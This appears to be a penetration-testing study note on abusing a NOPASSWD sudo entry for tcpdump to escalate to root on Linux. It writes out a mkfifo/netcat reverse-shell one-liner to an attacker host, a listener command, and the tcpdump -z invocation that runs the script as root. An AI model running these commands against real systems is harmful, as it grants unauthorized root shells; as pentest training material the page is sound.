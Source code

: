 ```yaml
---
title: Sudo Rights Abuse
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
```

# Sudo Rights Abuse

When the `sudo` command is issued, the system will check if the user issuing the command has the appropriate rights, as configured in `/etc/sudoers`. Sometimes we will need to know the user's password to list their `sudo` rights, but any rights entries with the `NOPASSWD` option can be seen without entering a password.

```
sudo -l
```


## tcpdump

For instance:

```shell-session
sudo -l
```

Output:
 
```
Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```

By specifying the `-z` flag, an attacker could use `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands. 

For example, an attacker could create the shell script `.test` containing a reverse shell:

```shell-session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IPAttacker 1234 >/tmp/f
```

Then, we set a listener in the attacking machine:

```
nc -lvnp 1234
```

And then, run `tcpdump` as root with the `postrotate-command`.

```shell-session
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

[AppArmor](https://wiki.ubuntu.com/AppArmor) in more recent distributions has predefined the commands used with the `postrotate-command`, effectively preventing command execution.
